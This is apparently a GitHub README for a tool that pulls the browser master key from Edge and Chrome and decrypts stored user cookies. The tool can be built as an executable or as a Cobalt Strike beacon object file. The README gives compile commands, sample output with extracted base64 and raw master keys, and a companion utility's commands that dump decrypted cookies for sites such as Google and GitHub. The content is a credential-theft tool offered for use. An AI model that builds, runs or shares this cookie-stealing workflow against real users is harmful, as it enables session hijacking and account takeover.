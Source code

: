 # Cookie-Graber-BOF
C or BOF file to extract WebKit master key to decrypt user cookie. The C code can be used to compile an executable or a bof script for Cobalt Strike.

# Compiling

If compiled as an exe `gcc cookie-graber.c -o cookie-graber_x64.exe -lshlwapi -lcrypt32`
If compiled as a bof `gcc cookie-graber.c -c -o cookie-graber_x64_bof.o -DCOMPILE_BOF`

# Extracting the master key

```
C:\> cookie-graber_x64.exe
Extracting Edge Key
---------------------------------------------
Fetching browser master key using the following path: C:\Users\me\AppData\Local\Microsoft\Edge\User Data\Local State
C:\Users\me\AppData\Local\Microsoft\Edge\User Data\Local State size is 70381 bytes
Allocating 368 bytes for the base64 key
Base64 key is: RFBBUEkBAAAA0Iyd3wEV0RGMegDAT8KX6wEAAABFNvO6coavRYQkOV1UUW2gEAAAAAoAAABFAGQAZwBlAAAAEGYAAAABAAAgAAAApq+CWXDOeQpheLzNhI6jOwv/QnvPEjvDGiLvLCd+NgYAAAAADoAAAAACAAAgAAAAEjU+7oooFgL9V1JmXutyukLlFByVAHnBv5cvAK8ZpZswAAAAM6framGIS4Rg36AAB5Mb+AttzablKCfEsyBG1lZUstE+zjQ15uBZyB+VHv+A7fkIQAAAALhrepFv9N75lWFCxlALUxp1ozYU8OOAOnWLAt03wzl8KkDdL9BhM3veu1mUd/uJwLspK0hQuZt535y0+4ZStGA=
Base64 decoded key need 275 bytes
Master key is: \x64\x24\x72\xac\x12\x28\x2c\xad\x63\x23\x1d\x65\xf5\x42\xdb\xfb\xad\x66\x81\xfb\xa0\x27\xe3\x71\xeb\xb3\xff\xcb\x2c\x54\xfc\xc1

Extracting Chrome Key
---------------------------------------------
Fetching browser master key using the following path: C:\Users\me\AppData\Local\Google\Chrome\User Data\Local State
C:\Users\me\AppData\Local\Google\Chrome\User Data\Local State size is 129940 bytes
Allocating 356 bytes for the base64 key
Base64 key is: RFBBUEkBAAAA0Iyd3wEV0RGMegDAT8KX6wEAAADEQHXytpJjRI8UCvIL946JAAAAAAIAAAAAABBmAAAAAQAAIAAAABQxgQWAHtcZhsNDufCFvJ4L8WI3404RueLElj3ke6EIAAAAAA6AAAAAAgAAIAAAAEk/RPYsHX/rMYi2u9TlQ5B5r8Fj4ZvXV5JkRqMEsFmZMAAAAKnJkfsfG1NwUoIH+mB1C41naRlyfIMp9XB4SWaFMpsYr4+svzQu/kdN3/7rwzs6bkAAAAA+jfpIKLjs1D32EeiApdVtHULizYEvWuWYdPfvPKUHujoOhAAJ4hUo5/zf4HEu47BoSDpjBX4LCfuy5hwSvJOa
Base64 decoded key need 267 bytes
Master key is: \x5f\x20\xfe\x18\x77\x2e\x05\xd2\xea\x7c\xc6\xa0\x2c\x42\x32\x94\x82\xc9\x56\xd7\x33\x2f\xed\xe7\x43\xcf\x4c\x7d\x17\x3d\x4f\xb8

Completed
```


# Recovering the cookies

Once you have the master key, base64 encode it and pass it to the CookieProcessor.exe utility. 

```
CookieProcessor.exe pathtocookiedb base64key (optional)hostkeyfilter
```

```
C:\>CookieProcessor.exe "C:\Users\me\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies" XyD+GHcuBdLqfMagLEIylILJVtczL+3nQ89MfRc9T7g=
www.cvedetails.com:__utma=1.1380952103.1637251852.1637251852.1637251852.1;
www.cvedetails.com:__utmz=1.1637251852.1.1.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided);
www.cvedetails.com:__utmt=1;
www.cvedetails.com:__utmb=1.1.10.1637251852;
.stackoverflow.com:prov=7afdff85-9a19-9ce1-d1a8-881f267af86c;
.stackoverflow.com:_ga=GA1.2.48033691.1637251893;
.stackoverflow.com:_gid=GA1.2.1056400725.1637251893;
.stackoverflow.com:_gat=1;
.github.com:_octo=GH1.1.879120819.1637252873;
.github.com:logged_in=no;
docs.microsoft.com:original_req_url=https://docs.microsoft.com/en-us/support/breadcrumb/toc.json;
.microsoft.com:MSCC=NR;
...
```

With the filter set to google
```
C:\>>CookieProcessor.exe "C:\Users\me\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies" XyD+GHcuBdLqfMagLEIylILJVtczL+3nQ89MfRc9T7g= google
.google.ca:AEC=HQJk6xSaFLaTQwOXXC5eIeQ;
.google.ca:NID=511=Jg3odiWJ7XRaL-ozGATG9rji646GGIGiBPbf64dQPq7KBqDhv4;
.google.ca:1P_JAR=2023-02-15-18;
...
```
